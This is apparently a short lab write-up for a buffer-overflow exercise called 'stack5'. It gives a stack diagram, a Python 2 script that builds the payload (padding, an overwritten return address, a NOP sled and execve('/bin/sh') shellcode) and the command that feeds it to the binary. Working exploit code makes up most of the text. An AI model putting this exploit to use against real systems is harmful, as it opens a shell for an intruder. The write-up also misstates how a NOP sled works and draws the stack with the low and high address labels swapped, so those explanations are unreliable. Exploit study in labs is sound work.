

What do we need to know:
* esp stack schema:
```
low
   [-SHELLCODE-] 
        |
     [-NOPS-] = 4B * NOPS_COUNT. This (0x90909090) value just tells pop another stack value, 
                until we reach out shell executable code. Needs, because we execute program
                in different environments, so our shell code memory call align. Preudocode:
                
                stack = [0x90909090 (nop), ..., 0x90909090 (nop), 
                         0x32b3a2f4 (start of shell code, depends)...]
                while stack.pop(0) == 0x90909090:
                    continue
                
        |
    [-RETURN-] = 4B <--- NEED TO OVERWRITE
        |
    [--EBP--] = 4B
        |
  [--GARBAGE--] = 8B (depends, need to research)
        |      
[----BUFFER----] = 64B
high
```

Python-script:
```python2
import struct

PADDING = 'A' * 4 * 16 + 'GGGGGGGG' + 'EEEE' # 1 part ('A' * 4 * 16) - buffer filling. 
                                             # 2 part ('GGGGGGGG') - garbage filling.
                                             # 3 part ('EEEE') - EBP filling
NOP = '\x90' * 4

SHELL_CODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

RETURN_ADDRESS = struct.pack('I', 0xbffff7c0 + 0x30) # Somewhere in the middle of nops

exploit_string = PADDING + RETURN_ADDRESS + NOP * 100 + SHELL_CODE # NOP * 100 can depends 

print exploit_string
```

Execution:
`(cat /tmp/stack5/exploit; cat) | ./stack5`
